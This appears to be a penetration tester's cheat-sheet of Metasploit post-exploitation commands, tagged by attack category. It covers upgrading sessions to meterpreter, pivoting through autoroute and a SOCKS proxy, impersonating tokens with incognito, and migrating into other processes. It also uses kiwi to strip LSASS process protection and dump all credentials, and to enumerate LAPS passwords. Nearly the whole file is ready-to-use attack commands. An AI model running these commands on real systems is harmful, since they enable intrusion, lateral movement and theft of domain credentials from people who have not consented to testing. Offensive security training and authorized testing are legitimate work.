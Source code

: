 # MSF

% metasploit

## upgrade session to meterpreter
#plateform/linux #target/remote #cat/ATTACK/CONNECT  
```
sessions -u <session_id>
```

## show session list
#plateform/linux #target/remote #cat/ATTACK/CONNECT
```
sessions -l
```

## print route table
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
```
route print
```

## add pivot (autoroute)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 
example : 
use multi/manage/autoroute
set session 1
exploit
```
use multi/manage/autoroute
```

## add socks proxy (autoroute first)
#plateform/linux #target/remote #cat/PIVOT/TUNNEL-PORTFW 

example : 
use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks_proxy
set srvhost 127.0.0.1
exploit -j

```
use auxiliary/server/socks_proxy
```

## load incognito 
#plateform/linux #target/local #cat/PRIVESC  
```
load incognito
```

## incognito impersonate token
#plateform/linux #target/local #cat/PRIVESC  
```
impersonate_token <domain_fqdn>\\<user>
```
## create process
#plateform/linux #target/local #cat/UTILS 
```
execute -H -f <process|notepad>
```

## migrate with name
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
migrate -N <process_name|notepad.exe>
```

##  PPL remove
#plateform/linux #target/local #cat/ATTACK/INJECTION 
```
load kiwi
kiwi_cmd "!processprotect /process:lsass.exe /remove"
creds_all
```

## enum LAPS
#plateform/linux #target/local #cat/ATTACK
```
use post/windows/gather/credentials/enum_laps
```

